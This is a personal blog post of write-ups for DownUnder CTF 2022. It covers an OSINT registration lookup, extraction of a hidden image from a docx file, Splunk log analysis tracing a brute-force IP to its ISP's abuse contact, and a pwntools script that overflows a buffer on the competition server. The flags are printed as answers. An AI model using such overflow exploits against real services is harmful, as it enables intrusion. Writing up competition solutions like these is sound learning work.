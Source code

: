 ```yaml
---
layout: post
title: "DownUnder CTF 2022 Writeups"
date: 2022-09-25 17:15:00 +0530
categories: CTF
tags: ctf downunder-ctf 2022
---
```


Hey fellow hackers, Welcome back to my another writeup. This week I played the **Downunder CTF 2022**. I wasn't able to solve many challenges since I was busy with some other tasks but I did manage to capture flags for some of the challenges. I managed to grab **350** points and my team ended up at **707th** position. Hope you enjoy my writeups and get to learn something new.

<br>
<h1><b><u>OSINT</u></b></h1>

<br><img src="/assets/images/downunder_ctf_2022/score.png" alt="score">

<br>
## Honk Honk

<br><img src="/assets/images/downunder_ctf_2022/honk_honk_1.png" alt="honk_honk">

<br>
As per this challenge, we have to figure out the date when's the CTP (Compulsory Third Party) insurance is about to be expired. There are many webistes out there to check the CTP repo status and the date when its about to expire. So, I decided to use the [Service NSW](https://free-rego-check.service.nsw.gov.au/) website to find the CTP rego status.

<br><img src="/assets/images/downunder_ctf_2022/honk_honk_2.png" alt="honk_honk">

<br>
I inputted the given car registration number which is **23HONK** and I got the complete details of the registration details. 

<br><img src="/assets/images/downunder_ctf_2022/honk_honk_3.png" alt="honk_honk">

<br><img src="/assets/images/downunder_ctf_2022/honk_honk_4.png" alt="honk_honk">

<br>
So, as you can see that the CTP insurance expire date is **19 July 2023**.

Therefore, the flag for this challenge would be:
> DUCTF{19/07/2023}

<br>
<h1><b><u>DFIR</u></b></h1>

<br>
## Dox Me

<br><img src="/assets/images/downunder_ctf_2022/dox_me_1.png" alt="dox_me">

<br>
In this challenge, we are give a **doxme** file and since the category of this challenge is **DFIR** so I assume that its related to the forensics. I downloaded the file and ran the **file** on it.

<br><img src="/assets/images/downunder_ctf_2022/dox_me_2.png" alt="dox_me">

<br>
`file` command revealed that this is a **Microsoft OOXML** and after some google research, I found out that this is a word **docx** file. I added the **.docx** extension to the file so that I can see what does the file contains.

<br><img src="/assets/images/downunder_ctf_2022/dox_me_3.png" alt="dox_me">

<br>
We can see the half part of the flag in the document but we need the complete flag before we can submit it. After this, I tried various methods to find other half of the flag such as running `strings` commands to find the complete flag on the docx file but then I remember that I can also unzip the docx file and extract the files.
```
unzip doxme.docx -d doxme
```

<br><img src="/assets/images/downunder_ctf_2022/dox_me_4.png" alt="dox_me">

<br>
After browsing through all these files, I came across two PNGs image files in `doxme/word/media` which is unusal since we only saw one image when we opened up the file. So, our flag must be in the other image. 

<br><img src="/assets/images/downunder_ctf_2022/dox_me_5.png" alt="dox_me">

<br>
Found the other half part of the flag. Now, our flag is completed:
> DUCTF{WOrd_D0Cs_Ar3_R34L1Y_W3ird}

<br>
## Shop-Setup&Disclaimer

<br><img src="/assets/images/downunder_ctf_2022/shop_setup_1.png" alt="shop_setup">

<br>
The provided json data file is not in the proper format so first of all I fixed the format of the data using the VS code editor.

<br><img src="/assets/images/downunder_ctf_2022/shop_setup_2.png" alt="shop_setup">

> IAgreeToTheTeasAndTheSeas

<br>
## Shop-Knock Knock Knock

<br><img src="/assets/images/downunder_ctf_2022/shop_knock_knock_knock_1.png" alt="shop_knock_knock_knock">

<br>
I loaded the data up in [Splunk Cloud](https://www.splunk.com/) instance. Now, its time to search & analyze the log data.

<br><img src="/assets/images/downunder_ctf_2022/shop_knock_knock_knock_2.png" alt="shop_knock_knock_knock">

<br>
Our objective is to find the email address of the ISP of the attackers. So, first of all, we have to find the IP address of the attacker. In our splunk cloud instance, we can see that the most requests came from the `58.164.62.91` IP address so this is probably the IP address of the attacker.

<br><img src="/assets/images/downunder_ctf_2022/shop_knock_knock_knock_3.png" alt="shop_knock_knock_knock">

<br>
Also, the time span between the login requests is very less as you can see below that the time span between the requests is between 2-3 seconds on average. So, this proves that this is the IP address of our attacker. 

<br><img src="/assets/images/downunder_ctf_2022/shop_knock_knock_knock_4.png" alt="shop_knock_knock_knock">

<br> The only step left to do is to find the ISP of this IP address and the email address of the ISP. So for this, I used [Whois Domain Tools](https://whois.domaintools.com/). This gave me the name of the ISP (**Telstra Internet**) and the email address of the ISP (**abuse@telstra.net**).

<br><img src="/assets/images/downunder_ctf_2022/shop_knock_knock_knock_5.png" alt="shop_knock_knock_knock">

> abuse@telstra.net

<br>
<h1><b><u>PWN</u></b></h1>

<br>
## Babyp(y)wn

<br><img src="/assets/images/downunder_ctf_2022/baby_pywn_1.png" alt="baby_pywn">

<br>
Baby Pwn is a pwn challenge in which I have to exploit the buffer overflow vulnerability in order to capture the flag. So, I installed `pwntools` and I wrote a simple script to fetch the flag.
```
from pwn import *

conn_obj = remote("2022.ductf.dev", 30021)
conn_obj.sendline(b"f" * 512 + b"DUCTF")

flag = conn_obj.recvline().decode()
print(flag)
```

<br>
After running the above script, I got the baby flag:
> DUCTF{C_is_n0t_s0_f0r31gn_f0r_incr3d1bl3_pwn3rs}

<br>
**So folks, that's it for this writeup. I will be back with more challenges in the next writeup. So, till then be safe and stay happy 😊**